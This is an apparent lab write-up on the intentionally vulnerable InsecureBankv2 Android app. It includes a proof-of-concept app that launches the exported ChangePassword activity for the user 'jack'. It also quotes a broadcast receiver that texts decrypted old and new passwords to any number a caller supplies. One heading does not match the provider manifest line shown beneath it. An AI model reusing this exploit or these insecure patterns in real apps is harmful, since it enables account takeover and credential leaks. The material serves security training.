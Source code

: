 ```java

package b3nac.injuredandroid.poc;

import androidx.appcompat.app.AppCompatActivity;
import android.content.Intent;
import android.os.Bundle;

public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        Intent start = new Intent();
        start.setClassName("com.android.insecurebankv2", "com.android.insecurebankv2.ChangePassword");
        start.putExtra("uname", "jack");

        startActivity(start);
    }

}

```

---

## Broadcast receiver MyBroadcastReceiver is accepting user provided variables in broadcast

### Leaks other user passwords via text message due to app needing to restart after password change

```xml
<provider android:name="com.android.insecurebankv2.TrackUserContentProvider" android:exported="true" android:authorities="com.android.insecurebankv2.TrackUserContentProvider"/>
```


Vulnerable code:

```java

public void onReceive(Context context, Intent intent) {
        String phn = intent.getStringExtra("phonenumber");
        String newpass = intent.getStringExtra("newpass");
        if (phn != null) {
            try {
                SharedPreferences settings = context.getSharedPreferences("mySharedPreferences", 1);
                this.usernameBase64ByteString = new String(Base64.decode(settings.getString("EncryptedUsername", (String) null), 0), "UTF-8");
                String decryptedPassword = new CryptoClass().aesDeccryptedString(settings.getString("superSecurePassword", (String) null));
                String textPhoneno = phn.toString();
                String textMessage = "Updated Password from: " + decryptedPassword + " to: " + newpass;
                SmsManager smsManager = SmsManager.getDefault();
                System.out.println("For the changepassword - phonenumber: " + textPhoneno + " password is: " + textMessage);
                smsManager.sendTextMessage(textPhoneno, (String) null, textMessage, (PendingIntent) null, (PendingIntent) null);
            } catch (Exception e) {
                e.printStackTrace();
```